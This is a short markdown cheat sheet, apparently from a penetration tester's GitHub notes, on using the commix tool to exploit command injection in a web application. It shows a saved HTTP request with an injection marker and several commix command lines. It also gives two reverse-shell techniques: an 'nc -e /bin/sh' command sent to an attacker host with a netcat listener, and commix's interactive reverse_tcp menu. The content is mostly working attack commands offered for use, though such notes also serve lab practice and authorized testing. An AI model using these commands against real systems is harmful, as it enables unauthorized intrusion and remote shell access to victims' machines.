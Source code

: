 Commix Reverse Shell
====================

READ THIS LINK!!
https://github.com/commixproject/commix/wiki/Reverse-Shells

Load from saved file (contains cookies, tokens, etc)
---------------------------------------------------
```bash
commix -r /must/use/full/path/to/file.txt

# make sure you add the "INJECT_HERE" where it is needed
########## CONTENTS OF FILE.TXT ################################# 
GET /commandexec/example2.php?ip=127.0.0.1INJECT_HERE HTTP/1.1
Host: xxx.xxx.xxx.xxx
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://xxx.xxx.xxx.xxx/
Connection: close
Upgrade-Insecure-Requests: 1
########## CONTENTS OF FILE.TXT ################################# 

```
Examples
---------
```bash
# Notice the "INJECT_HERE" param
commix -u 'http://xxx.xxx.xxx.xxx/commandexec/example2.php?ip=127.0.0.1INJECT_HERE'--os=unix --batch 
# Use proxy to make sure you are doing what you think you are
commix -u 'http://xxx.xxx.xxx.xxx/commandexec/example2.php?ip=127.0.0.1INJECT_HERE'--os=unix --batch --proxy=http://localhost:8080
# --data is used for POST and adds the data to the body, not the url
commix -u 'http://xxx.xxx.xxx.xxx/commandexec/example2.php' --data=ip="INJECT_HERE" --os=unix --batch --proxy=http://localhost:8080
```


Technique 1
-----------
```bash
# Start NC listener on attackers server
nc -lvp 1234

commix -u 'http://victim.ip.address/commandexec/example1.php?ip=127.0.0.1' --os-cmd="/bin/nc.traditional -e /bin/sh attacker.ip.adddress 1234"
```
Technique 2
-----------
````bash
# Start NC listener on attackers server
nc -lvp 1234

# Exploit Found
os_shell
commix(os_shell)
reverse_tcp
set LHOST attackers.ip.address
set LPORT 1234

---[ Reverse TCP shells ]---     
Type '1' to use a netcat reverse TCP shell.
Type '2' for other reverse TCP shells.

1

---[ Unix-like targets ]--- 
Type '1' to use the default Netcat on target host.
Type '2' to use Netcat for Busybox on target host.
Type '3' to use Netcat-Traditional on target host. 
Type '4' to use Netcat-Openbsd on target host. 

3
```
